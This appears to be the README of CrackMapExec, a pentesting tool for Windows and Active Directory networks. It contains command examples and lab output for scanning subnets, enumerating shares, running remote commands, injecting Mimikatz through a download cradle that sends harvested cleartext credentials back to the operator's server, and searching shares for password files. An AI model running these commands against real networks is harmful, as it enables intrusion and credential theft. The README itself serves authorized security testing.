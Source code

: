 # CrackMapExec
A swiss army knife for pentesting Windows/Active Directory environments

Powered by [Impacket](https://github.com/CoreSecurity/impacket)

This project was inspired by/based off of:
- @agsolino's [wmiexec.py](https://github.com/CoreSecurity/impacket/blob/master/examples/wmiexec.py), [smbexec.py](https://github.com/CoreSecurity/impacket/blob/master/examples/smbexec.py), [samrdump.py](https://github.com/CoreSecurity/impacket/blob/master/examples/samrdump.py), [secretsdump.py](https://github.com/CoreSecurity/impacket/blob/master/examples/secretsdump.py) and [atexec.py](https://github.com/CoreSecurity/impacket/blob/master/examples/atexec.py) scripts (beyond awesome)
- @ShawnDEvans's [smbmap](https://github.com/ShawnDEvans/smbmap)
- @gojhonny's [CredCrack](https://github.com/gojhonny/CredCrack)
- @pentestgeek's [smbexec](https://github.com/pentestgeek/smbexec)


Additionally some code was stolen from @T-S-A's [smbspider](https://github.com/T-S-A/smbspider) script

#Description

CrackMapExec is your one-stop-shop for pentesting Windows/Active Directory environments!

From enumerating logged on users and spidering SMB shares to executing psexec style attacks and auto-injecting Mimikatz into memory using Powershell!

The biggest improvements over the above tools are:
- Pure Python script, no external tools required
- Fully concurrent threading
- Uses **ONLY** native WinAPI calls for discovering sessions, users, dumping SAM hashes etc...
- Opsec safe (no binaries are uploaded to dump clear-text credentials)

Requires the impacket, gevent and netaddr Python libraries

#Installation on Kali Linux

Run ```pip install --upgrade -r requirements.txt```

#Usage examples

The most basic usage: scans the subnet using 100 concurrent threads:
```
#~ python crackmapexec.py -t 100 172.16.206.0/24
[+] 172.16.206.132:445 is running Windows 6.1 Build 7601 (name:DRUGCOMPANY-PC) (domain:DRUGCOMPANY-PC)
[+] 172.16.206.133:445 is running Windows 6.3 Build 9600 (name:DRUGOUTCOVE-PC) (domain:DRUGOUTCOVE-PC)
[+] 172.16.206.130:445 is running Windows 10.0 Build 10240 (name:DESKTOP-QDVNP6B) (domain:DESKTOP-QDVNP6B)
```

Let's enumerate available shares:
```
#~  python crackmapexec.py -t 100 172.16.206.0/24 -u username -p password --shares
[+] 172.16.206.132:445 is running Windows 6.1 Build 7601 (name:DRUGCOMPANY-PC) (domain:DRUGCOMPANY-PC)
[+] 172.16.206.133:445 is running Windows 6.3 Build 9600 (name:DRUGOUTCOVE-PC) (domain:DRUGOUTCOVE-PC)
[+] 172.16.206.130:445 is running Windows 10.0 Build 10240 (name:DESKTOP-QDVNP6B) (domain:DESKTOP-QDVNP6B)
[+] 172.16.206.130:445 DESKTOP-QDVNP6B Available shares:
	SHARE			Permissions
	-----			-----------
	ADMIN$			READ, WRITE
	IPC$			NO ACCESS
	C$			    READ, WRITE
[+] 172.16.206.133:445 DRUGOUTCOVE-PC Available shares:
	SHARE			Permissions
	-----			-----------
	Users			READ, WRITE
	ADMIN$			READ, WRITE
	IPC$			NO ACCESS
	C$			    READ, WRITE
[+] 172.16.206.132:445 DRUGCOMPANY-PC Available shares:
	SHARE			Permissions
	-----			-----------
	Users			READ, WRITE
	ADMIN$			READ, WRITE
	IPC$			NO ACCESS
	C$			    READ, WRITE
```

Let's execute some commands on all systems concurrently:

```
#~ python crackmapexec.py -t 100 172.16.206.0/24 -u username -p password -x whoami
[+] 172.16.206.132:445 is running Windows 6.1 Build 7601 (name:DRUGCOMPANY-PC) (domain:DRUGCOMPANY-PC)
[+] 172.16.206.130:445 is running Windows 10.0 Build 10240 (name:DESKTOP-QDVNP6B) (domain:DESKTOP-QDVNP6B)
[+] 172.16.206.132:445 DRUGCOMPANY-PC Executed specified command via SMBEXEC
nt authority\system

[+] 172.16.206.130:445 DESKTOP-QDVNP6B Executed specified command via SMBEXEC
nt authority\system

[+] 172.16.206.133:445 is running Windows 6.3 Build 9600 (name:DRUGOUTCOVE-PC) (domain:DRUGOUTCOVE-PC)
[+] 172.16.206.133:445 DRUGOUTCOVE-PC Executed specified command via SMBEXEC
nt authority\system
```

Same as above only using WMI as the code execution method:
```
#~ python crackmapexec.py -t 100 172.16.206.0/24 -u username -p password --execm wmi -x whoami
[+] 172.16.206.132:445 is running Windows 6.1 Build 7601 (name:DRUGCOMPANY-PC) (domain:DRUGCOMPANY-PC)
[+] 172.16.206.133:445 is running Windows 6.3 Build 9600 (name:DRUGOUTCOVE-PC) (domain:DRUGOUTCOVE-PC)
[+] 172.16.206.130:445 is running Windows 10.0 Build 10240 (name:DESKTOP-QDVNP6B) (domain:DESKTOP-QDVNP6B)
[+] 172.16.206.132:445 DRUGCOMPANY-PC Executed specified command via WMI
drugcompany-pc\administrator

[+] 172.16.206.133:445 DRUGOUTCOVE-PC Executed specified command via WMI
drugoutcove-pc\administrator

[+] 172.16.206.130:445 DESKTOP-QDVNP6B Executed specified command via WMI
desktop-qdvnp6b\drugdealer
```

Use an IEX cradle to run ```Invoke-Mimikatz.ps1``` on all systems concurrently (PS script gets hosted automatically with an HTTP server),
Mimikatz's output then gets POST'ed back to our HTTP server, saved to a log file and parsed for clear-text credentials:
```
#~ python crackmapexec.py -t 100 172.16.206.0/24 -u username -p password --mimikatz
[*] Press CTRL-C at any time to exit
[*] Note: This might take some time on large networks! Go grab a redbull!
[+] 172.16.206.132:445 is running Windows 6.1 Build 7601 (name:DRUGCOMPANY-PC) (domain:DRUGCOMPANY-PC)
[+] 172.16.206.133:445 is running Windows 6.3 Build 9600 (name:DRUGOUTCOVE-PC) (domain:DRUGOUTCOVE-PC)
[+] 172.16.206.130:445 is running Windows 10.0 Build 10240 (name:DESKTOP-QDVNP6B) (domain:DESKTOP-QDVNP6B)
172.16.206.130 - - [19/Aug/2015 18:57:40] "GET /Invoke-Mimikatz.ps1 HTTP/1.1" 200 -
172.16.206.133 - - [19/Aug/2015 18:57:40] "GET /Invoke-Mimikatz.ps1 HTTP/1.1" 200 -
172.16.206.132 - - [19/Aug/2015 18:57:41] "GET /Invoke-Mimikatz.ps1 HTTP/1.1" 200 -
172.16.206.133 - - [19/Aug/2015 18:57:45] "POST / HTTP/1.1" 200 -
[+] 172.16.206.133 Found plain text creds! Domain: drugoutcove-pc Username: drugdealer Password: IloveMETH!@$
[*] 172.16.206.133 Saved POST data to Mimikatz-172.16.206.133-2015-08-19_18:57:45.log
172.16.206.130 - - [19/Aug/2015 18:57:47] "POST / HTTP/1.1" 200 -
[*] 172.16.206.130 Saved POST data to Mimikatz-172.16.206.130-2015-08-19_18:57:47.log
172.16.206.132 - - [19/Aug/2015 18:57:48] "POST / HTTP/1.1" 200 -
[+] 172.16.206.132 Found plain text creds! Domain: drugcompany-PC Username: drugcompany Password: IloveWEED!@#
[+] 172.16.206.132 Found plain text creds! Domain: DRUGCOMPANY-PC Username: drugdealer Password: D0ntDoDrugsKIDS!@#
[*] 172.16.206.132 Saved POST data to Mimikatz-172.16.206.132-2015-08-19_18:57:48.log
``` 

Lets Spider the C$ share starting from the ```Users``` folder for the pattern ```password``` in all files and directories (concurrently):
```
#~ python crackmapexec.py -t 150 172.16.206.0/24 -u username -p password --spider Users --depth 10 --pattern password
[+] 172.16.206.132:445 is running Windows 6.1 Build 7601 (name:DRUGCOMPANY-PC) (domain:DRUGCOMPANY-PC)
[+] 172.16.206.133:445 is running Windows 6.3 Build 9600 (name:DRUGOUTCOVE-PC) (domain:DRUGOUTCOVE-PC)
[+] 172.16.206.132:445 DRUGCOMPANY-PC Started spidering
[+] 172.16.206.130:445 is running Windows 10.0 Build 10240 (name:DESKTOP-QDVNP6B) (domain:DESKTOP-QDVNP6B)
[+] 172.16.206.133:445 DRUGOUTCOVE-PC Started spidering
[+] 172.16.206.130:445 DESKTOP-QDVNP6B Started spidering
//172.16.206.132/Users/drugcompany/AppData/Roaming/Microsoft/Windows/Recent/supersecrepasswords.lnk
//172.16.206.132/Users/drugcompany/AppData/Roaming/Microsoft/Windows/Recent/supersecretpasswords.lnk
//172.16.206.132/Users/drugcompany/Desktop/supersecretpasswords.txt
[+] 172.16.206.132:445 DRUGCOMPANY-PC Done spidering (Completed in 7.0349509716)
//172.16.206.133/Users/drugdealerboss/Documents/omgallthepasswords.txt
[+] 172.16.206.133:445 DRUGOUTCOVE-PC Done spidering (Completed in 16.2127850056)
//172.16.206.130/Users/drugdealer/AppData/Roaming/Microsoft/Windows/Recent/superpasswords.txt.lnk
//172.16.206.130/Users/drugdealer/Desktop/superpasswords.txt.txt
[+] 172.16.206.130:445 DESKTOP-QDVNP6B Done spidering (Completed in 38.6000130177)
```

For all available options, just run: ```python crackmapexec.py --help```